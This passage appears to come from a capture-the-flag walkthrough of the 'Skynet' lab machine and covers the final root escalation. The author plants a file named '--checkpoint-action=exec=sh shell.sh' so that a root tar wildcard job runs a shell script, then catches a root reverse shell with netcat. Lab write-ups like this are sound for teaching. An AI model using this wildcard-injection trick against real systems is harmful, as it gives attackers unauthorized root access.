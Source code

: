Now that we have created the payload we need to make the file that will execute it.

```
www-data@skynet:/var/www/html$ echo "" > "--checkpoint-action=exec=sh shell.sh"
```

After about a minute or waiting, we get a connection.

```
$ nc -lnvp 9002
listening on [any] 9002 ...
connect to [<YOUR IP>] from (UNKNOWN) [10.10.182.3] 35740
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

Now that we are root we can read and submit the final flag!

```
# cd /root
# ls -la
total 28
drwx------  4 root root 4096 Sep 17  2019 .
drwxr-xr-x 23 root root 4096 Sep 18  2019 ..
lrwxrwxrwx  1 root root    9 Sep 17  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Sep 17  2019 .cache
drwxr-xr-x  2 root root 4096 Sep 17  2019 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Sep 17  2019 root.txt
# cat root.txt
<REDACTED>
```
